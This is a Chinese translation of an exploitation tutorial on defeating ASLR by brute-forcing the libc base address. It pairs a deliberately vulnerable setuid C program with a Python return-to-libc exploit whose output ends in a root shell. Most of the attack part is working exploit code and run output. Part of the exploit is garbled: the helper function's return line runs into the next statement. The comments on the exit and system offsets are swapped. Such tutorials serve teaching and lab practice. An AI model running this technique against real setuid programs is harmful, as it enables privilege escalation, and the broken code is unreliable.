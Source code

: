 # 绕过 ASLR -- 第二部分

> 译者：[飞龙](https://github.com/wizardforcel)

> 原文：[Bypassing ASLR – Part II](https://sploitfun.wordpress.com/2015/05/08/bypassing-aslr-part-ii/)

预备条件：

[经典的基于栈的溢出](http://bbs.pediy.com/thread-216868.htm)

VM 配置：Ubuntu 12.04 (x86)

这篇文章中，让我们看看如何使用爆破技巧，来绕过共享库地址随机化。

> 什么是爆破？

在这个技巧中，攻击者选择特定的 Libc 基址，并持续攻击程序直到成功。假设你足够幸运，这个技巧是用于绕过 ASLR 的最简单的技巧。

漏洞代码：

```c
//vuln.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
 char buf[256];
 strcpy(buf,argv[1]);
 printf("%s\n",buf);
 fflush(stdout);
 return 0;
}
```

编译命令：

```
#echo 2 > /proc/sys/kernel/randomize_va_space
$gcc -fno-stack-protector -g -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```

让我们来看看，攻击者如何爆破 Libc 基址。下面是（当随机化打开时）不同的 Libc 基址：

```
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75b6000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7568000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7595000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75d9000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7542000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb756a000)
$
```

上面展示了，Libc 随机化仅限于 8 位。因此我们可以在最多 256 次尝试内，得到 root shell。在下面的利用代码中，让我们选择`0xb7595000`作为 Libc 基址，并让我们尝试几次。

利用代码：

```py
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call

libc_base_addr = 0xb7595000
exit_off = 0x00032be0             #Obtained from "readelf -s libc.so.6 | grep system" command.
system_off = 0x0003f060           #Obtained from "readelf -s libc.so.6 | grep exit" command.
system_addr = libc_base_addr + system_off
exit_addr = libc_base_addr + exit_off
system_arg = 0x804827d

#endianess convertion
def conv(num):
 return struct.pack("<I",numystem + exit + system_arg
buf = "A" * 268
buf += conv(system_addr)
buf += conv(exit_addr)
buf += conv(system_arg)

print "Calling vulnerable program"
#Multiple tries until we get lucky
i = 0
while (i < 256):
 print "Number of tries: %d" %i
 i += 1
 ret = call(["./vuln", buf])
 if (not ret):
  break
 else:
  print "Exploit failed"
```

运行上面的利用代码，我们会得到 root shell（在下面展示）：

```
$ python exp.py 
Calling vulnerable program
Number of tries: 0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`@]??{\?}?
Exploit failed
...
Number of tries: 42
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`@]??{\?}?
Exploit failed
Number of tries: 43
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`@]??{\?}?
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

注意：也可以爆破类似的栈和堆段的地址。